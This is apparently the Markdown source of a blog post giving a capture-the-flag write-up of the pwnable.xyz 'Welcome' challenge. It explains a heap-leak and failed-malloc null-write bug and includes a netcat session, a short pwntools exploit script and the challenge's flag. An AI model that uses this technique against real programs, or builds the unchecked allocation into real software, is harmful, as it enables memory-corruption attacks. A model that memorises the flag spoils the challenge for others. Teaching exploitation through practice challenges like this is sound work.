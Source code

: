 ```yaml
---
layout: post
title: "PwnableXYZ: Welcome challenge"
date: 2024-02-06
tags: [Pwn] 
description: This post discuss the solution for the first pwnable.xyz challenge.
---
```


# Introduction
That is my first post in 2024, so I thought to refresh my knowledge about binary exploitation by going through the [pwnable.xyz](https://pwnable.xyz/) challenges in my free time. This post will be the write-up for the first challenge **"Welcome"**.

# Gaining insights on the binary

The first step I usually do, is to check the mitigations of the binary using the `checksec` command in pwndbg. The command's output shows that all the mitigations are turned on.

![img]({{'/assets/images/PwnableXYZ-Welcome/img1.png' | relative_url }}){: .center-image }*(**The mitigations status**)*

By executing the binary, I found that it prints out a hexadecimal number representing a memory address leak and receives two inputs, which are the message's length and the message itself, as shown below.

> CommandLine 
{:.filename}
{% highlight CMD %}
$ ./challenge
Welcome.
Leak: 0x7f318f02c010
Length of your message: 5
Enter your message: aaaaa
aaaa
{% endhighlight %}

# Finding the vulnerability

The main function starts with calling the function at address 0x100b4e, which is responsible for stopping the buffering for stdin and stdout. Also, it automatically signals the program to exit in 60 seconds.

![img]({{'/assets/images/PwnableXYZ-Welcome/img2.png' | relative_url }}){: .center-image }*(**The function at 0x100b4e**)*

After that, it allocates memory from memory the heap whose address is saved to a pointer `HeapPtr1` and sets its first byte to 1. Then, it prints out the `HeapPtr1` value that represents the memory leak, we saw previously. In the next step, it receives from the user two inputs: a number representing the message size and the message. The message is a string whose address in the heap is saved into a pointer called `HeapPtr2`, as appears below.

![img]({{'/assets/images/PwnableXYZ-Welcome/img3.png' | relative_url }}){: .center-image }*(**Allocating memory for the message**)*

Finally, the last byte of the message is set to null, and the program prints it to the screen. Also, as appears below, to print the flag, the first byte of the memory pointed to by a `HeapPtr1` must be equal to zero. However, it's equal to one.

![img]({{'/assets/images/PwnableXYZ-Welcome/img4.png' | relative_url }}){: .center-image }*(**The vulnerable code**)*

The above highlighted line represents the vulnerability that will enable us to set the first byte of `HeapPtr1` to zero using the message size that we control.

# Exploiting the vulnerability

To exploit the vulnerability, first, we need the result of `HeapPtr2 + msgSize-1` to equal the leaked address. That is achieved by inputting the message size with value `HeapPtr1 + 1`, which will cause the `malloc` to return zero (`HeapPtr2` is zero), as it will fail to allocate the requested memory size, leading us to set the first byte of `HeapPtr1` to zero.

There are two ways to exploit that binary, the first one, as shown below, is achieved by converting the leaked address from hexadecimal to decimal. Then, incrementing and inputting it as message size. However, this conversion must be within 60 seconds before the program is signaled to exit.

> CommandLine 
{:.filename}
$ nc svc.pwnable.xyz  30000 
Welcome.
Leak: 0x7fac38973010
Length of your message: 140377660534801
Enter your message: 32323
FLAG{did_you_really_need_a_script_to_solve_this_one?}
{% endhighlight %}

The second way is to implement a Python script that uses [pwntools](https://docs.pwntools.com/en/stable/), to automate the previous task, as the following script.

> exploit.py
{:.filename}
{% highlight Python %}
from pwn import *

conn = remote("svc.pwnable.xyz",30000)
data = str(conn.recvuntil(b"message: "),"utf-8")
lines = data.split("\n")
leak = lines[1].split(":")[1].strip() #leaked address
OverwriteAddress = int(leak,16) # convert it to decimal
address = str(OverwriteAddress+1) # increment the address
conn.sendline(str.encode(address)) # input message size to be equal the leaked address + 1
conn.sendline(b"random") # send anything and it will work
flag = conn.recvall()
print(flag) # the flag
{% endhighlight %}





  
